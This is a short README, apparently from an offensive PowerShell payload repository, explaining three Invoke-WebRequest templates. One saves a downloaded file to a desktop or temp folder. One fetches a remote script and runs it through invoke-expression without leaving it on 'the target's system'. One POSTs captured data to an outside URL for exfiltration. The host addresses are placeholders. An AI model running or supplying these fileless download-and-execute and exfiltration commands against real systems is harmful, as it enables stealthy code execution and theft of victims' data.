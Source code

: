## Description

These functions are used to either download or upload files or data

## The Function

### [IWR-Save] 

This formatting of the IWR function will download a file from a selected URL and save it to the directory of your choosing 

This is helpful if you are trying to save an image or sound file to use in your script

------------------------------------------------------------------------------------------------------------------------------

`$env:TMP\`

Use this environment variable to save the file to your Temp directory

`$Env:USERPROFILE\Desktop\`

Use this environment variable to save a file to your desktop

```PowerShell
iwr < Your url for the intended file>?dl=1 -O $Env:USERPROFILE\Desktop\image.jpg
```

### [IWR-Fileless] 

This formatting of the IWR function will download a file and execute it immedietely without saving it to memory

This is helpful if you are trying to download and execute a script without keeping it on the target's system

```PowerShell
$pl = iwr < Your url for the intended file>?dl=1; invoke-expression $pl
```

### [IWR-Post] 

This formatting of the IWR function will exfiltrate data via a DNS/POST

This is helpful if you are trying to exfiltrate the data you have captured

[Request Catcher](https://requestcatcher.com/)<-------Helpful website to test POST requests

```PowerShell
iwr -Uri < Your url for posting the intended data> -Method POST -Body "text to upload"
```
